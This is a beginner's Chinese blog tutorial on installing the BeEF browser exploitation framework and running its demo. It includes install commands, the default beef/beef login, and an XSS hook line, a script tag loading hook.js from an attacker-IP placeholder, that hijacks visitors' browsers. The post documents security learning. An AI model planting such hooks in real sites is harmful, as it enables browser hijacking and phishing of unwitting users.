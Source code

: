 # **BeEf新手向**
## **写在前面**
*上学期第一次接触到XSS，然后就知道了BeEf这个工具，一直对BeEf很好奇。本文主要是作者作为新手记录学习用的，所以介绍的主要就是BeEf的使用，并没有涉及到底层。新手上路，求轻喷。*

## **BeEF简介**

 - 是什么？
BeEf,The Browser Exploitation Framework缩写，攻击者可以对目标进行攻击测试，攻击成功以后会加载浏览器劫持会话，它扩展了跨站漏洞的利用，能HOOK很多浏览器(IE和Firefox等)并可以执行很多内嵌命令。
 

### 环境：BT5 【或者Kali】

## **安装**
删除BT5上面自带的版本稍旧的BeEF【kali上也有自带的beef】
```
rm -rf /pentest/web/beef-ng

git clone https://github.com/beefproject/beef

cd /pentest/web/beef

./beef
```
![这里写图片描述](http://img.blog.csdn.net/20171121212439825?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)
然后要开启apache
```
apache2 start
```
接着就访问返回信息中的**登录地址**http://localIP:3000/ui/panel，可以看到一个登录界面，默认账号/密码：beef/beef

![网页界面](http://img.blog.csdn.net/20171121211434022?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

*这里有个小插曲，我在打开http://192.168.137.134:3000/ui/panel的时候，一直没有显示什么登录框，就以为是安装出了错，原来是我的fx设置了安全限制*

## **访问+测试**
访问测试网址http://ip:3000//demos/basic.html，就是说，如果一个网站有XSS漏洞，然后你通过某种方式把你的（钓鱼）网址发到这个有XSS漏洞的页面，受害者点击或者直接访问那个界面时，就会跳转到你构造的钓鱼界面
***页面源代码要有***

```
<script src="http://攻击主机IP:3000/hook.js"></script>
```

![这里写图片描述](http://img.blog.csdn.net/20171121214446838?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)
接着我们就可以在我们的beef上看到有受害者登录了

![这里写图片描述](http://img.blog.csdn.net/20171121215216183?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvTGFvbl9DaGFu/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)
